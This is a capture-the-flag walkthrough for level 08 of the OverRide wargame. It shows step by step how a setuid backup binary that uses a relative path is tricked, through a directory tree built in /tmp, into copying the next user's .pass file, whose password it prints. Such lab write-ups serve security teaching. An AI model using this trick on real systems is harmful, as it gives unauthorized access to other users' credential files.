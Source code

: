 # Level 08

Once logged in, you will see a binary, AND a directory name `backups`

```
$ ssh 164.92.144.154 -p 4242 -l level08
	   ____                  ____  _     __
	  / __ \_   _____  _____/ __ \(_)___/ /__
	 / / / / | / / _ \/ ___/ /_/ / / __  / _ \
	/ /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
	\____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 164.92.144.154:4242
level08@164.92.144.154's password:

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Full RELRO      Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level08/level08
level08@OverRide:~$ ls
backups  level08
level08@OverRide:~$ ls -ls
total 16
 0 drwxrwx---+ 1 level09 users    60 Oct 19  2016 backups
16 -rwsr-s---+ 1 level09 users 12975 Oct 19  2016 level08
level08@OverRide:~$
```

by running the program, it asks to provide a filepath. A .log file is located in `backups` directory, so let's try giving the path, but it fails to open the file, and the prompt shows the path differ from one given.

```
level08@OverRide:~$ ./level08
Usage: ./level08 filename
ERROR: Failed to open (null)
level08@OverRide:~$ ./level08 ./backups/.log
ERROR: Failed to open ./backups/./backups/.log
level08@OverRide:~$
```

By decompiling the code, the program consist of 3 steps backing up the file given path.
1. the program attempts to open `./backups/.log` file for backup. If fails, the program will exit
  - the log_wrapper function will execute for logging the file
  - ** The path is not absolute, it's relative path **
2. the program will try opening the file from given path. If fails, the program will exit.
3. the program will copy the contents into the `./backups/[filename]`, if it fails to create the file, the program will exit.
4. after the program finishes, the program will end.
  - the log_wrapper function will execute for logging the file

So the following would not be able to work, since there is no permission given to `level8` to open the file for `level9`

```
level08@OverRide:~$ ./level08 /home/user/level9/.pass
ERROR: Failed to open /home/user/level9/.pass
level08@OverRide:~$
```

Since you cannot create any files in home directory (because of the permission), let's create a file on the directory `/tmp`

```
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat backups/
home/ .log
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
level08@OverRide:/tmp$
```

